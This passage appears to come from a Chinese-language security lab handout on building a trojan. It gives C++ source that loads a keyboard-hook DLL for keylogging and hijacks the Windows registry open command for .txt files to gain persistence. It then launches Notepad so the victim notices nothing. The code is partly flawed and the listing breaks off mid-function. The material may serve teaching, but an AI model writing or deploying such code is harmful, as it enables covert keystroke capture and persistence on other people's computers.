 （2）修改 19~27 行代码，结合木马功能需求，在不弹出对话框的情况下，实现程序退出时卸载键盘钩子。

（3）生成解决方案，编译生成目标 EXE。

## 木马自启动

在图 6-3 第 7 行之前，添加实验 3 中修改注册表的代码，劫持 txt 或者doc/docx 文件打开方式，实现木马自启动。

```cpp
#include <windows.h>
#include <stdio.h>
typedef BOOL(*WINAPI pfnHookProc)();

int ModifyRegKey()
{
	HKEY hKey = NULL;
	RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("txtfile\\shell\\Open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS;
	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS) {
		nRet = 1;
		MessageBox(NULL, strPath, TEXT("notice"), MB_OK);
	}
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	HANDLE hEvent = CreateEvent(NULL, FALSE, TRUE, TEXT("singleton"));
	if (GetLastError() == ERROR_ALREADY_EXISTS)
		return 0;
	HMODULE hModule = LoadLibrary(TEXT("HookDll.dll"));
	if (hModule == NULL)
		return 0;
	pfnHookProc pfnInstall = (pfnHookProc)GetProcAddress(hModule, "InstallHook");
	pfnHookProc pfnUnInstall = (pfnHookProc)GetProcAddress(hModule, "UnInstallHook");
	pfnInstall();

	int ret = ModifyRegKey();

	TCHAR strDir[260] = { 0 };
	TCHAR strPath[260] = { 0 };

	GetSystemDirectory(strDir, 260);
	wsprintf(strPath, TEXT("%s\\notepad.exe"), strDir);
	GetCurrentDirectory(260, strDir);
	MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
	HWND hDesk = GetDesktopWindow();
	ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);

	do
	{
		int nRet = MessageBox(NULL, TEXT("退出?"), TEXT("Tips"), MB_YESNO);
		if (nRet == IDYES)
			pfnUnInstall();
		break;
	} while (TRUE);
```